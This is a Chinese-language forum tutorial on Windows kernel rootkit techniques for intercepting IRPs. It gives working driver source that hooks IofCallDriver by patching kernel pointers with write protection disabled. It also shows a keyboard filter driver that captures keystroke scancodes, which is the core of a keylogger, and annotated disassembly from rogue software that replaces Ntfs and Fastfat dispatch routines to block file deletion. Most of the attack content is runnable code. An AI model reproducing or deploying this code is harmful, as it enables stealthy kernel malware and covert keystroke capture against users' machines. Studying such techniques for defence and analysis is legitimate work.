

# rootkit hook 之\[五\] -- IRP Hook 全家福

> 原文：[`www.pediy.com/kssd/pediy10/60022.html`](https://www.pediy.com/kssd/pediy10/60022.html)

年过得真快，马上过完了。我们今天一起来汇总看看 IRP HOOK 的方法。又是长篇大论，别着急，慢慢看。谈到 irp 拦截，基本上有三种方式，一种是在起点拦截，一种是在半路拦截，一种是在终点拦截。 下面我们会详细分析这几种方式哪些是有效的，哪种是无效的。 要理解这几种拦截，我们需要看看 irp 地传送过程。我们看下图的标准模型。请看大屏幕。   
  
注意这个标准模型中，并不是每种 IRP 都经过这些步骤，由于设备类型和 IRP 种类的不同某些步骤会改变或根本不存在。  
  
一、**IRP 创建。**  
  由于 IRP 开始于某个实体调用 I/O 管理器函数创建它，可以使用下面任何一种函数创建 IRP：   
  IoBuildAsynchronousFsdRequest 创建异步 IRP(不需要等待其完成)。该函数和下一个函数仅适用于创建某些类型的 IRP。   
  IoBuildSynchronousFsdRequest 创建同步 IRP(需要等待其完成)。   
  IoBuildDeviceIoControlRequest 创建一个同步 IRP\_MJ\_DEVICE\_CONTROL 或 IRP\_MJ\_INTERNAL\_DEVICE\_CONTROL 请求。   
  IoAllocateIrp 创建上面三个函数不支持的其它种类的 IRP。   
  由此我们知道，第一种起点拦截的办法就清楚了，那就是 HOOK 这几个 IRP 的创建函数。  
  由于函数有多个，并且此时 irp 虽然已经创建，但是还没有进程初始化，也就是说 irp 堆栈  
  单元的内容还没有填充。因此起点拦截的办法是得不到有用信息的。这种办法无效。  
  
二、**发往派遣例程**  
  那么 irp 是什么时间初始化的呢？  
创建完 IRP 后，你可以调用 IoGetNextIrpStackLocation 函数获得该 IRP 第一个堆栈单元的指针。然后初始化这个堆栈单元。在初始化过程的最后，你需要填充 MajorFunction 代码。堆栈单元初始化完成后，就可以调用 IoCallDriver 函数把 IRP 发送到设备驱动程序了。IoCallDriver 是一个宏，它内部实现中调用了 IofCallDriver. 因此，到这里便有了第二种拦截方法，即中途拦截。  
   
三、**派遣例程的作用**  
1）在派遣例程中完成 irp。通常我们做的过滤驱动或者一些简单的驱动，都是这么完成的，直接在派遣例程中返回。不需要经过后面的步骤，派遣函数立即完成该 IRP。   
例如：NTSTATUS  OnStubDispatch(  IN PDEVICE\_OBJECT DeviceObject,  
                                  IN PIRP           Irp  
                                )  
{  
    Irp->IoStatus.Status      = STATUS\_SUCCESS;  
    IoCompleteRequest (Irp, IO\_NO\_INCREMENT );  
    return Irp->IoStatus.Status;  
}  
派遣例程把该 IRP 传递到处于同一堆栈的下层驱动程序 。  
  在这种情况下，通过调用 IcCallDriver 可以将 irp 传递到其他的驱动，或者传递到下一层驱动,这时 irp 变成其他驱动要处理的事情，如果其他驱动的派遣例程处理了 irp,就类似 1）的情况了，如果没处理，继续向下传，如果中间 FDO 没有处理，最后传到最低层的硬件驱动上去，也就是我们所谓的 PDO. 这个时候，I/O 管理器就调用一次 StartIo 例程,硬件抽象层会通过硬件中断 ISR，一个 ISR 最可能做的事就是调度 DPC 例程(推迟过程调用)。最后完成这个 IRP.，回到 I/O 管理器。  
排队该 IRP 以便由这个驱动程序中的其它例程来处理 。  
例如：NTSTATUS DispatchXxx(...)   
{   
  ...   
  IoMarkIrpPending(Irp);         
  IoStartPacket(device, Irp, NULL, NULL);        
  return STATUS\_PENDING;          
}  
如果设备正忙，IoStartPacket 就把请求放到队列中。如果设备空闲，IoStartPacket 将把社  
备置成忙并调用 StartIo 例程。 接下来类似于 2）中描述的那样,完成这样一个过程。  
    
我们写驱动的时候，对感兴趣的 irp，我们都会写派遣例程来进行处理。如果我们把派遣例程给替换了，便有了第三种的 irp 拦截。  
对于第三种的拦截，有两种办法：  
一种是写一个过滤驱动放在要拦截的驱动的上层，这是一种安全的办法。例如：  
如果我们想拦截系统的文件操作，就必须拦截 I/O 管理器发向文件系统驱动程序的 IRP。而拦 截 IRP 最简单的方法莫过于创建一个上层过滤器设备对象并将之加入文件系统设备所在的设备堆栈中。具体方法如下：首先通过 IoCreateDevice 创 建自己的设备对象，然后调用 IoGetDeviceObjectPointer 来得到文件系统设备（Ntfs，Fastfat，Rdr 或 Mrxsmb， Cdfs）对象的指针，最后通过 IoAttachDeviceToDeviceStack 或者 IoAttachDevice 等函数，将自己的设备放到设备堆栈上成为一个过滤器。这是拦截 IRP 最常用也是最保险的方法。   
  
还有一种就是直接替换要拦截驱动对象的派遣例程函数表。它的方法更简单且更为直接。  
例如：如果我们想拦截系统的文件操作，它先通过 ObReferenceObjectByName 得到文件系统驱动对象的指针。然后将驱动对象中 MajorFunction 数组中的打开，关闭，清除，设置文件信息，和写入调度例程入口地址改为我们驱动中相应钩子函数的入口地址来达到拦截 IRP 的目的。   
  
总结：  
  1） 可用办法之一：hook IofCallDriver 实现 irp 拦截。  
  2） 可用办法之二：写一个过滤驱动，挂在你要 hook 其 irp 的那个驱动之上。  
  3） 可用办法之三：直接修改你要 hook 其 irp 的那个驱动的 MajorFunction 函数表。  
  
针对于三种可用方法，我们分别给出例子说明：  
**方法一例子**：没必要再细写，只需要注意一点：  
  
lkd>  u IofCallDriver  
nt!IofCallDriver:  
804ef0f6 ff2500c85480    jmp     dword ptr \[nt!pIofCallDriver (8054c800)\]  
804ef0fc cc              int     3  
804ef0fd cc              int     3  
804ef0fe cc              int     3  
  
  
这里我们看到 IofCallDriver 的地址在开头偏移 2 个字节地方。看明白这个，后面代码的写法就能搞清楚。  
  
#include "ntddk.h"  
  
typedef NTSTATUS (FASTCALL  
 \*pIofCallDriver)(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN OUT PIRP Irp);  
   
 pIofCallDriver old\_piofcalldriver;  
 UNICODE\_STRING SymbolicLinkName;  
 PDRIVER\_OBJECT g\_drvobj;  
 UNICODE\_STRING DeviceName;  
PDEVICE\_OBJECT deviceObject;  
ULONG oData;  
  
#define IOCTL\_DISABLE  CTL\_CODE(FILE\_DEVICE\_UNKNOWN ,0x8101,METHOD\_BUFFERED,FILE\_ANY\_ACCESS)     
#define IOCTL\_ENABLE   CTL\_CODE(FILE\_DEVICE\_UNKNOWN ,0x8100,METHOD\_BUFFERED,FILE\_ANY\_ACCESS)     
  
  
 NTSTATUS FASTCALL  
 NewpIofCallDriver(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN OUT PIRP Irp  
 )  
 {  
   NTSTATUS stat;  
   DbgPrint("Hacked Great!");  
    
   \_\_asm  
   {  
   mov ecx,DeviceObject  
   mov edx,Irp  
   Call old\_piofcalldriver  
   mov stat,eax  
   }  
   return stat;  
 }  
  
 NTSTATUS DriverIoControl(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN PIRP Irp)  
 {  
   PIO\_STACK\_LOCATION pisl;  
   NTSTATUS ns = STATUS\_UNSUCCESSFUL;  
   ULONG BuffSize, DataSize;  
   PVOID pBuff, pData,pInout;  
   KIRQL OldIrql;  
   ULONG i;  
   pisl = IoGetCurrentIrpStackLocation (Irp);  
    
   BuffSize = pisl->Parameters.DeviceIoControl.OutputBufferLength;  
    
   pBuff = Irp->AssociatedIrp.SystemBuffer;  
    
   Irp->IoStatus.Information = 0;  
   switch(pisl->Parameters.DeviceIoControl.IoControlCode)  
   {  
     case IOCTL\_DISABLE:  
     {  
         
       DbgPrint("IOCTL\_DISABLE");  
       ns = STATUS\_SUCCESS;  
        
     }  
     break;  
     case IOCTL\_ENABLE:  
     {  
         
       DbgPrint("IOCTL\_ENABLE");  
       ns = STATUS\_SUCCESS;  
         
     }  
     break;  
   }  
    
   Irp->IoStatus.Status = ns;  
   IoCompleteRequest(Irp, IO\_NO\_INCREMENT);  
   return ns;  
 }  
    
 NTSTATUS DrivercreateClose(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN PIRP Irp)  
 {  
   Irp->IoStatus.Information = 0;  
   Irp->IoStatus.Status = STATUS\_SUCCESS;  
   IoCompleteRequest(Irp, IO\_NO\_INCREMENT);  
   return STATUS\_SUCCESS;  
    
 }  
   
  void UnHookpIofCallDriver()  
 {  
   KIRQL oldIrql;  
   ULONG addr = (ULONG)IofCallDriver;  
  
   oldIrql = KeRaiseIrqlToDpcLevel();  
   \_\_asm  
   {  
     mov eax,cr0  
     mov oData,eax  
     and eax,0xffffffff  
     mov cr0,eax  
     mov eax,addr  
     mov esi,\[eax+2\]  
     mov eax,old\_piofcalldriver  
     mov dword ptr \[esi\],eax  
     mov eax,oData  
     mov cr0,eax  
   }  
   KeLowerIrql(oldIrql);  
   return ;  
 }  
    
 VOID DriverUnload(IN PDRIVER\_OBJECT DriverObject)  
 {  
    UnHookpIofCallDriver();  
   IoDeleteSymbolicLink(&SymbolicLinkName);  
   IoDeleteDevice(deviceObject);  
 }  
  
 NTSTATUS DriverClose(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN PIRP Irp)  
 {  
   return DrivercreateClose(DeviceObject,Irp);  
 }  
  
 NTSTATUS IoComplete(  
 IN PDEVICE\_OBJECT DeviceObject,  
 IN PIRP Irp)  
 {  
   IoCompleteRequest(Irp,IO\_NO\_INCREMENT);  
   return STATUS\_SUCCESS;   
 }  
    
  
 void HookpIofCallDriver()  
 {  
   KIRQL oldIrql;  
   ULONG addr = (ULONG)IofCallDriver;  
   \_\_asm  
   {  
     mov eax,addr  
     mov esi,\[eax+2\]  
     mov eax,\[esi\]  
     mov old\_piofcalldriver,eax  
   }  
   oldIrql = KeRaiseIrqlToDpcLevel();  
   \_\_asm  
   {  
     mov eax,cr0  
     mov oData,eax  
     and eax,0xffffffff  
     mov cr0,eax  
     mov eax,addr  
     mov esi,\[eax+2\]  
     mov dword ptr \[esi\],offset NewpIofCallDriver  
     mov eax,oData  
     mov cr0,eax  
   }  
   KeLowerIrql(oldIrql);  
   return ;  
 }  
  
 NTSTATUS DriverEntry(IN PDRIVER\_OBJECT DriverObject,  
 IN PUNICODE\_STRING RegistryPath)  
 {  
   NTSTATUS status;  
   PDRIVER\_DISPATCH \*ppdd;  
   ULONG i;  
   PCWSTR dDeviceName = L"\\\\Device\\\\irphook";  
   PCWSTR dSymbolicLinkName = L"\\\\DosDevices\\\\irphook";  
    
   RtlInitUnicodeString(&DeviceName, dDeviceName);  
   RtlInitUnicodeString(&SymbolicLinkName, dSymbolicLinkName);  
   status = IoCreateDevice(DriverObject, 0, &DeviceName, FILE\_DEVICE\_UNKNOWN, 0, TRUE, &deviceObject);  
   if (!NT\_SUCCESS(status)) return status;  
   status = IoCreateSymbolicLink(&SymbolicLinkName, &DeviceName);  
  
    
   DriverObject->DriverUnload = DriverUnload;  
   ppdd = DriverObject->MajorFunction;  
   for(i =0;i<=IRP\_MJ\_MAXIMUM\_FUNCTION;i++)  
     ppdd\[i\] = IoComplete;  
    
   ppdd \[IRP\_MJ\_CREATE\] = DrivercreateClose;  
   ppdd \[IRP\_MJ\_DEVICE\_CONTROL \] = DriverIoControl;  
   g\_drvobj = DriverObject;  
   HookpIofCallDriver();  
   return status;  
 }  
  
**方法二例子**  
这个例子比较长，我们只看关键代码并说明.  
  
1。将自己挂接到"\\\\Device\\\\KeyboardClass0"设备上  
NTSTATUS HookKeyboard(IN PDRIVER\_OBJECT pDriverObject)  
{  
  DbgPrint("Entering Hook Routine...\\n");  
  PDEVICE\_OBJECT pKeyboardDeviceObject;  
  
  NTSTATUS status = IoCreateDevice(pDriverObject,sizeof(DEVICE\_EXTENSION), NULL, //no name  
    FILE\_DEVICE\_KEYBOARD, 0, true, &pKeyboardDeviceObject);  
  
  if(!NT\_SUCCESS(status))  
    return status;  
    
  DbgPrint("Created keyboard device successfully...\\n");  
  
    
  pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags | (DO\_BUFFERED\_IO | DO\_POWER\_PAGABLE);  
  pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags & ~DO\_DEVICE\_INITIALIZING;  
  DbgPrint("Flags set succesfully...\\n");  
  
  RtlZeroMemory(pKeyboardDeviceObject->DeviceExtension, sizeof(DEVICE\_EXTENSION));  
  DbgPrint("Device Extension Initialized...\\n");  
  
  PDEVICE\_EXTENSION pKeyboardDeviceExtension = (PDEVICE\_EXTENSION)pKeyboardDeviceObject->DeviceExtension;   
    
    
  CCHAR     ntNameBuffer\[64\] = "\\\\Device\\\\KeyboardClass0";  
    STRING     ntNameString;  
  UNICODE\_STRING uKeyboardDeviceName;  
    RtlInitAnsiString( &ntNameString, ntNameBuffer );  
    RtlAnsiStringToUnicodeString( &uKeyboardDeviceName, &ntNameString, TRUE );  
  IoAttachDevice(pKeyboardDeviceObject,&uKeyboardDeviceName,&pKeyboardDeviceExtension->pKeyboardDevice);  
  RtlFreeUnicodeString(&uKeyboardDeviceName);  
  DbgPrint("Filter Device Attached Successfully...\\n");  
  
  return STATUS\_SUCCESS;  
}  
  
//我们感兴趣的 irp 处理。由于我们要处理的按键信息，需要等底层驱动处理完成返回后才能取回  
//按键值，因此，我们设置完成例程，用于底层驱动完成 irp 后回调我们的例程。我们设置好完成例//程后，就把 irp 传到底层驱动进行处理。  
NTSTATUS DispatchRead(IN PDEVICE\_OBJECT pDeviceObject, IN PIRP pIrp)  
{  
    
  DbgPrint("Entering DispatchRead Routine...\\n");  
    
  PIO\_STACK\_LOCATION currentIrpStack = IoGetCurrentIrpStackLocation(pIrp);  
  PIO\_STACK\_LOCATION nextIrpStack = IoGetNextIrpStackLocation(pIrp);  
  \*nextIrpStack = \*currentIrpStack;  
  
  IoSetCompletionRoutine(pIrp, OnReadCompletion, pDeviceObject, TRUE, TRUE, TRUE);  
  
  
   numPendingIrps++;  
  
  DbgPrint("Tagged keyboard 'read' IRP... Passing IRP down the stack... \\n");  
  
  return IoCallDriver(((PDEVICE\_EXTENSION) pDeviceObject->DeviceExtension)->pKeyboardDevice ,pIrp);  
  
}  
  
//这是完成例程，我们在这里处理得到的按键信息。  
NTSTATUS OnReadCompletion(IN PDEVICE\_OBJECT pDeviceObject, IN PIRP pIrp, IN PVOID Context)  
{  
  DbgPrint("Entering OnReadCompletion Routine...\\n");  
  
    
  PDEVICE\_EXTENSION pKeyboardDeviceExtension = (PDEVICE\_EXTENSION)pDeviceObject->DeviceExtension;   
    
  
  if(pIrp->IoStatus.Status == STATUS\_SUCCESS)  
  {  
    PKEYBOARD\_INPUT\_DATA keys = (PKEYBOARD\_INPUT\_DATA)pIrp->AssociatedIrp.SystemBuffer;  
    int numKeys = pIrp->IoStatus.Information / sizeof(KEYBOARD\_INPUT\_DATA);  
  
    for(int i = 0; i < numKeys; i++)  
    {  
      DbgPrint("ScanCode: %x\\n", keys\[i\].MakeCode);  
        
      if(keys\[i\].Flags == KEY\_BREAK)  
        DbgPrint("%s\\n","Key Up");  
        
      if(keys\[i\].Flags == KEY\_MAKE)  
        DbgPrint("%s\\n","Key Down");  
      
        
      KEY\_DATA\* kData = (KEY\_DATA\*)ExAllocatePool(NonPagedPool,sizeof(KEY\_DATA));  
                
      
      kData->KeyData = (char)keys\[i\].MakeCode;  
      kData->KeyFlags = (char)keys\[i\].Flags;  
  
      DbgPrint("Adding IRP to work queue...");  
      ExInterlockedInsertTailList(&pKeyboardDeviceExtension->QueueListHead,  
      &kData->ListEntry,  
      &pKeyboardDeviceExtension->lockQueue);  
      KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue,0,1,FALSE);  
  
    }  
  }  
  
    
  if(pIrp->PendingReturned)  
    IoMarkIrpPending(pIrp);  
  
   numPendingIrps--;  
  
  return pIrp->IoStatus.Status;  
}  
  
在这个 demo 中要注意的是，由于 irp 的处理函数的 IRQL = DISPATCH\_LEVEL，因此，我们申请内存的话，只能申请非分页内存。在这个 IRQL 级别，我们不能创建或者保存文件来记录按键信息。  
我们只能创建一个系统线程，在系统线程中完成按键信息的保存。  
后面附上 DEMO.  
**  
方法三的例子**，偶比较懒了，就从流氓软件逆向代码中抠出一段来贴上。有时间的话，我会再写一个 demo 附上。我已经给加上了详细地注释，很容易明白。  
.text:000186A4 sub\_186A4       proc near               ; CODE XREF: sub\_16FDA+19p  
.text:000186A4  
.text:000186A4 DestinationString= UNICODE\_STRING ptr -18h  
.text:000186A4 var\_10          = dword ptr -10h  
.text:000186A4 var\_C           = dword ptr -0Ch  
.text:000186A4 var\_8           = dword ptr -8  
.text:000186A4 var\_4           = dword ptr -4  
.text:000186A4  
.text:000186A4                 push    ebp  
.text:000186A5                 mov     ebp, esp  
.text:000186A7                 sub     esp, 18h  
.text:000186AA                 push    ebx  
.text:000186AB                 push    esi  
.text:000186AC                 push    edi  
.text:000186AD                 push    10h  
.text:000186AF                 pop     ecx             ; ecx = 10h  
.text:000186B0                 xor     eax, eax  
.text:000186B2                 mov     edi, offset dword\_36DE0  
.text:000186B7                 mov     esi, offset dword\_36DFC  
.text:000186BC                 rep stosd               ; 清零 dword\_36de0 至 dword\_36e20 的空间  
.text:000186BE                 mov     \[ebp+var\_10\], offset aFilesystemNtfs ; "\\\\FileSystem\\\\Ntfs"  
.text:000186C5                 mov     \[ebp+var\_C\], offset aFilesystemFast ; "\\\\FileSystem\\\\Fastfat"  
.text:000186CC                 mov     ebx, esi  
.text:000186CE                 lea     edi, \[ebp+var\_10\]  
.text:000186D1                 mov     \[ebp+var\_8\], 2  ; var\_8 是一个循环变量  
.text:000186D8  
.text:000186D8 loc\_186D8:                              ; CODE XREF: sub\_186A4+72j  
.text:000186D8                 push    dword ptr \[edi\] ; SourceString  
.text:000186DA                 lea     eax, \[ebp+DestinationString\]  
.text:000186DD                 push    eax             ; DestinationString  
.text:000186DE                 call    ds:RtlInitUnicodeString ; 转换"\\\\FileSystem\\\\Ntfs"字符串为 UNICODE\_STRING 类型  
.text:000186E4                 lea     eax, \[ebp+var\_4\] ; 用于存放输出的 Object 指针  
.text:000186E7                 push    eax  
.text:000186E8                 xor     eax, eax  
.text:000186EA                 push    eax  
.text:000186EB                 push    eax  
.text:000186EC                 push    ds:IoDriverObjectType  
.text:000186F2                 push    eax  
.text:000186F3                 push    eax  
.text:000186F4                 push    40h  
.text:000186F6                 lea     eax, \[ebp+DestinationString\]  
.text:000186F9                 push    eax  
.text:000186FA                 call    ds:ObReferenceObjectByName ; NTSTATUS  
.text:000186FA                                         ; ObReferenceObjectByName (  
.text:000186FA                                         ;     \_\_in PUNICODE\_STRING ObjectName,  
.text:000186FA                                         ;     \_\_in ULONG Attributes,  
.text:000186FA                                         ;     \_\_in\_opt PACCESS\_STATE AccessState,  
.text:000186FA                                         ;     \_\_in\_opt ACCESS\_MASK DesiredAccess,  
.text:000186FA                                         ;     \_\_in POBJECT\_TYPE ObjectType,  
.text:000186FA                                         ;     \_\_in KPROCESSOR\_MODE AccessMode,  
.text:000186FA                                         ;     \_\_inout\_opt PVOID ParseContext,  
.text:000186FA                                         ;     \_\_out PVOID \*Object  
.text:000186FA                                         ;     )  
.text:000186FA                                         ;  
.text:000186FA                                         ; /\*++  
.text:000186FA                                         ;  
.text:000186FA                                         ; Routine Description:  
.text:000186FA                                         ;  
.text:000186FA                                         ;     Given a name of an object this routine returns a pointer  
.text:000186FA                                         ;     to the body of the object with proper ref counts  
.text:000186FA                                         ;  
.text:000186FA                                         ; Arguments:  
.text:000186FA                                         ;  
.text:000186FA                                         ;     ObjectName - Supplies the name of the object being referenced  
.text:000186FA                                         ;  
.text:000186FA                                         ;     Attributes - Supplies the desired handle attributes  
.text:000186FA                                         ;  
.text:000186FA                                         ;     AccessState - Supplies an optional pointer to the current access  
.text:000186FA                                         ;         status describing already granted access types, the privileges used  
.text:000186FA                                         ;         to get them, and any access types yet to be granted.  
.text:000186FA                                         ;  
.text:000186FA                                         ;     DesiredAccess - Optionally supplies the desired access to the  
.text:000186FA                                         ;         for the object  
.text:000186FA                                         ;  
.text:000186FA                                         ;     ObjectType - Specifies the object type according to the caller  
.text:000186FA                                         ;  
.text:000186FA                                         ;  
.text:00018700                 test    eax, eax        ; AccessMode - Supplies the processor mode of the access  
.text:00018700                                         ;  
.text:00018700                                         ;     ParseContext - Optionally supplies a context to pass down to the  
.text:00018700                                         ;         parse routine  
.text:00018700                                         ;  
.text:00018700                                         ;     Object - Receives a pointer to the referenced object body  
.text:00018700                                         ;  
.text:00018700                                         ; Return Value:  
.text:00018700                                         ;  
.text:00018700                                         ;     An appropriate NTSTATUS value  
.text:00018700                                         ;  
.text:00018700                                         ; --\*/  
.text:00018702                 jge     short loc\_18708 ; 成功则跳转  
.text:00018704                 and     \[ebp+var\_4\], 0  
.text:00018708  
.text:00018708 loc\_18708:                              ; CODE XREF: sub\_186A4+5Ej  
.text:00018708                 mov     eax, \[ebp+var\_4\] ; 分别取出"\\\\FileSystem\\\\Fastfat"和"\\\\FileSystem\\\\Ntfs"的对象指针  
.text:0001870B                 mov     \[ebx\], eax  
.text:0001870D                 add     edi, 4          ; edi 指向 var\_c  
.text:00018710                 add     ebx, 20h        ; ebx 指向 36e10  
.text:00018713                 dec     \[ebp+var\_8\]  
.text:00018716                 jnz     short loc\_186D8  
.text:00018718                 mov     edi, ds:InterlockedExchange  
.text:0001871E                 push    2  
.text:00018720                 pop     ebx             ; ebx = 2,用作计数  
.text:00018721  
.text:00018721 loc\_18721:                              ; CODE XREF: sub\_186A4+DCj  
.text:00018721                 mov     eax, \[esi\]      ; 取前面得到的 object 指针  
.text:00018723                 test    eax, eax  
.text:00018725                 jz      short loc\_1877C ; 如果取出的对象指针为空，则跳转  
.text:00018727                 lea     ecx, \[eax+38h\]  ; Target  
.text:0001872A                 mov     edx, offset loc\_184C7 ; Value  
.text:0001872F                 call    edi ; InterlockedExchange ; 替换 MajorFunction\[IRP\_MJ\_CREATE\]  
.text:00018731                 mov     ecx, \[esi\]  
.text:00018733                 add     ecx, 40h        ; Target  
.text:00018736                 mov     edx, offset loc\_1851F ; Value  
.text:0001873B                 mov     \[esi-1Ch\], eax  ; 保存原始值  
.text:0001873E                 call    edi ; InterlockedExchange ; 替换 MajorFunction\[IRP\_MJ\_CLOSE\]  
.text:00018740                 mov     ecx, \[esi\]  
.text:00018742                 add     ecx, 50h        ; Target  
.text:00018745                 mov     edx, offset loc\_18577 ; Value  
.text:0001874A                 mov     \[esi-18h\], eax  ; 保存原始值  
.text:0001874D                 call    edi ; InterlockedExchange ; 替换 MajorFunction\[IRP\_MJ\_SET\_INFORMATION\],用于防删除  
.text:0001874F                 mov     ecx, \[esi\]  
.text:00018751                 add     ecx, 48h        ; Target  
.text:00018754                 mov     edx, offset loc\_185CF ; Value  
.text:00018759                 mov     \[esi-14h\], eax  ; 保存原始值  
.text:0001875C                 call    edi ; InterlockedExchange ; 替换 MajorFunction\[IRP\_MJ\_WRITE\]  
.text:0001875E                 mov     \[esi-10h\], eax  ; 保存原始值  
.text:00018761                 mov     eax, \[esi\]  
.text:00018763                 mov     eax, \[eax+28h\]  ; FastIoDispatch  
.text:00018766                 test    eax, eax  
.text:00018768                 jz      short loc\_1877C ; 取下一个，并计数器减一  
.text:0001876A                 lea     ecx, \[eax+0Ch\]  ; Target  
.text:0001876D                 cmp     dword ptr \[ecx\], 0 ; 判断 FastIoDispatch->FastIoWrite 是否为空  
.text:00018770                 jz      short loc\_1877C ; 取下一个，并计数器减一  
.text:00018772                 mov     edx, offset sub\_18627 ; Value  
.text:00018777                 call    edi ; InterlockedExchange ; 替换 FastIoDispatch->FastIoWrite  
.text:00018779                 mov     \[esi-8\], eax    ; 保存原始值  
.text:0001877C  
.text:0001877C loc\_1877C:                              ; CODE XREF: sub\_186A4+81j  
.text:0001877C                                         ; sub\_186A4+C4j ...  
.text:0001877C                 add     esi, 20h        ; 取下一个，并计数器减一  
.text:0001877F                 dec     ebx  
.text:00018780                 jnz     short loc\_18721 ; 取前面得到的 object 指针  
.text:00018782                 pop     edi  
.text:00018783                 pop     esi  
.text:00018784                 pop     ebx  
.text:00018785                 leave  
.text:00018786                 retn  
.text:00018786 sub\_186A4       endp  
.text:00018786

上传的附件
|  || irphook1.rar  
 |
|  || irphook2.rar \[解压密码：pediy\]  
 |
|  || irphook3.rar \[附件请到论坛上下载：[`bbs.pediy.com/showthread.php?t=60022`](http://bbs.pediy.com/showthread.php?t=60022) \]  
 |